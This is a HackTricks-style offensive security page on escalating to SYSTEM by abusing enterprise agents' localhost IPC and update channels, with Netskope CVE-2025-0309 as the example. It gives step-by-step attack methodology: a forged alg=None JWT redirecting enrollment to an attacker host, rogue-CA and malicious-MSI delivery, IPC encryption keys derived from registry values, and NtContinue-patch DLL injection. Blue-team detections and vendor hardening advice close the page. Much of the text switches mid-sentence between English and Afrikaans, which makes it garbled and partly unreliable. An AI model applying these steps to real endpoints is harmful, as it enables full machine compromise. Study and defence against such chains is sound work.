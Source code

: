 # Abusing Enterprise Auto-Updaters and Privileged IPC (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

This page generalizes a class of Windows local privilege escalation chains found in enterprise endpoint agents and updaters that expose a low‑friction IPC surface and a privileged update flow. A representative example is Netskope Client for Windows < R129 (CVE-2025-0309), where a low‑privileged user can coerce enrollment into an attacker‑controlled server and then deliver a malicious MSI that the SYSTEM service installs.

Key ideas you can reuse against similar products:
- Misbruik ’n bevoorregte diens se localhost IPC om herinskrywing of herkonfigurasie na ’n aanvallerserwer af te dwing.
- Implementeer die verskaffer se update-endpoints, lewer ’n kwaadwillige Trusted Root CA, en verwys die updater na ’n kwaadwillige, “signed” pakket.
- Ontduik swak signer‑kontroles (CN allow‑lists), opsionele digest‑vlagte, en slordige MSI‑eienskappe.
- As IPC “encrypted” is, lei die key/IV af vanaf algemeen leesbare masjienidentifikasies wat in die registry gestoor word.
- As die diens bellers beperk op grond van image path/process name, injekteer in ’n allow‑listed proses of spawn een suspended en bootstrap jou DLL via ’n minimale thread‑context patch.

---
## 1) Forcing enrollment to an attacker server via localhost IPC

Many agents ship a user‑mode UI process that talks to a SYSTEM service over localhost TCP using JSON.

Observed in Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) Craft a JWT enrollment token whose claims control the backend host (e.g., AddonUrl). Use alg=None so no signature is required.
2) Send the IPC message invoking the provisioning command with your JWT and tenant name:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Die diens begin jou kwaadwillige bediener vir enrollment/config te tref, byvoorbeeld:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Aantekeninge:
- Indien caller-verifikasie pad/naam-gebaseer is, laat die versoek afkomstig wees van 'n op die witlys geplaatste vendor binary (sien §4).

---
## 2) Oorname van die update-kanaal om kode as SYSTEM uit te voer

Sodra die kliënt met jou bediener praat, implementeer die verwagte endpoints en stuur dit na 'n aanvaller-MSI. Tipiese volgorde:

1) /v2/config/org/clientconfig → Gee 'n JSON-config terug met 'n baie kort opdateringsinterval, bv.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Return a PEM CA certificate. The service installs it into the Local Machine Trusted Root store.
3) /v2/checkupdate → Supply metadata pointing to a malicious MSI and a fake version.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: die diens mag slegs kyk of die Subject CN gelyk is aan “netSkope Inc” of “Netskope, Inc.”. Jou slegte CA kan ’n leaf uitreik met daardie CN en die MSI teken.
- CERT_DIGEST property: sluit ’n onskadelike MSI‑eienskap genaamd CERT_DIGEST in. Geen afdwinging tydens installasie nie.
- Optional digest enforcement: config‑vlag (bv. check_msi_digest=false) deaktiveer ekstra kriptografiese verifikasie.

Result: the SYSTEM service installs your MSI from
C:\ProgramData\Netskope\stAgent\data\*.msi
executing arbitrary code as NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

From R127, Netskope wrapped IPC JSON in an encryptData field that looks like Base64. Reversing showed AES with key/IV derived from registry values readable by any user:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Aanvallers kan die enkripsie reproduceer en geldige enkripteerde opdragte stuur vanaf ’n standaard gebruiker. Algemene wenk: as ’n agent skielik sy IPC “enkripteer”, kyk vir device IDs, product GUIDs, install IDs onder HKLM as materiaal.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Sommige dienste probeer die peer verifieer deur die TCP‑verbinding se PID op te los en die image path/name te vergelyk met allow‑listed vendor binaries onder Program Files (bv. stagentui.exe, bwansvc.exe, epdlp.exe).

Twee praktiese omseilings:
- DLL injection in ’n allow‑listed proses (bv. nsdiag.exe) en proxy IPC van binne daardie proses.
- Spawn ’n allow‑listed binary in suspended state en bootstrap jou proxy DLL sonder CreateRemoteThread (sien §5) om driver‑afgedwonge tamper‑reëls te bevredig.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Produkte verskaf dikwels ’n minifilter/OB callbacks driver (bv. Stadrv) om gevaarlike regte van handles na beskermde prosesse te verwyder:
- Process: verwyder PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: beperk tot THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

’n Betroubare user‑mode loader wat aan hierdie beperkings voldoen:
1) CreateProcess van ’n vendor binary met CREATE_SUSPENDED.
2) Verkry handle waarvoor jy nog toegelaat is: PROCESS_VM_WRITE | PROCESS_VM_OPERATION op die proses, en ’n thread handle met THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (of net THREAD_RESUME as jy kode by ’n bekende RIP patch).
3) Oorskryf ntdll!NtContinue (of ander vroeë, gewaarborgde‑gemap thunk) met ’n klein stub wat LoadLibraryW op jou DLL‑pad aanroep, en dan terug spring.
4) ResumeThread om jou stub in‑process te trigger en jou DLL te laai.

Omdat jy nooit PROCESS_CREATE_THREAD of PROCESS_SUSPEND_RESUME op ’n reeds‑beskermde proses gebruik het nie (jy het dit geskep), word die driver se beleid bevredig.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) outomatiseer ’n rogue CA, kwaadwillige MSI‑handtekening, en bedien die nodige endpoints: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope is ’n custom IPC client wat arbitrêre (opsioneel AES‑enkripteerde) IPC‑boodskappe saamstel en die suspended‑process injection insluit sodat dit van ’n allow‑listed binary afkomstig lyk.

---
## 7) Detection opportunities (blue team)
- Monitor additions to Local Machine Trusted Root. Sysmon + registry‑mod eventing (see SpecterOps guidance) works well.
- Flag MSI executions initiated by the agent’s service from paths like C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Review agent logs for unexpected enrollment hosts/tenants, e.g.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – look for addonUrl / tenant anomalies and provisioning msg 148.
- Alert on localhost IPC clients that are not the expected signed binaries, or that originate from unusual child process trees.

---
## Hardening tips for vendors
- Bind enrollment/update hosts to a strict allow‑list; reject untrusted domains in clientcode.
- Authenticate IPC peers with OS primitives (ALPC security, named‑pipe SIDs) instead of image path/name checks.
- Keep secret material out of world‑readable HKLM; if IPC must be encrypted, derive keys from protected secrets or negotiate over authenticated channels.
- Treat the updater as a supply‑chain surface: require a full chain to a trusted CA you control, verify package signatures against pinned keys, and fail closed if validation is disabled in config.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
